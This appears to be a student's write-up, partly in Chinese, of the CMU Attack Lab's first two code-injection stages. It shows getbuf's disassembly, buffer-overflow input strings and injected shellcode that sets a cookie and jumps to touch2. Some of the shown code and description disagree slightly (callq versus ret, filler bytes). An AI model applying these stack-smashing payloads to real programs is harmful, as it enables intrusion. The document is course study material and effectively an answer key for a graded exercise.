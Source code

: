 ## Description
- 分为两种attack: 1)Code Injection Attacks 2)Return-Oriented Programming
- 由于executable program的执行逻辑是要上传到CMU评分系统，我们自己本地做的时候要在command line 填入 -q，否则会有authetication error
- gdb -tui ctarget / run -q


## touch_1
1. 0000000000401968 <test>
2. code injection attack, 将touch_1函数的地址(0x4017c0)覆盖掉getbuf调用后返回的return value
3. sub $0x28, %rsp 在栈上开辟了40bytes的空间，return value 就存储在 %rsp + 0x28为起始地址的位置
4. 所以我么只需要利用hex2raw生成40bytes的dummy string + 函数touch_1的little-endian形式的地址即可
5. 答案: input.txt 中 40 *aa c0 17 40, ./hex2raw < input.txt > stage1.txt
6. ./target < stage1.txt 即可通过

![](touch1.png)

```asm
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 8c 02 00 00          callq  401a40 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      retq
  4017be:       90                      nop
  4017bf:       90                      nop
```

## touch_2
1. 00000000004017ec <touch2> | 
2. injection code的地址必须在当前%rsp所指向的范围内，调用%rsp范围以外的code会产生segmentation fault
3. touch_2的思路是将getbuf()在栈上的return address改为injection code的起始地址，而injection code 需要用assembly instruction retq实现跳转到touch_2
4. touch_2需要我们传入cookie值到%rdi作为函数的入参，所以我们编写的assembly code 只需要两条指令：
```asm
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi #将cookie值$0x59b997fa传入%rdi中
   7:   e8 00 00 00 00          callq  0xc
```
5. 当我们从getbuf() return的时候%rsp指向test()开辟的栈的底部，我们要把<touch2>的地址填入到这里作为injection code运行结束后的跳转地址
6. assembly code不需要以litte-endian的形式填写，因为这是reverse engineering 生成的汇编代码，也就是机器上实际运行的代码

![](touch2-injection.png)

```asm
"level2Instruct.txt" 9L, 193C
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
48 c7 c7 fa 97 b9 59 c3
```

![](touch2.png)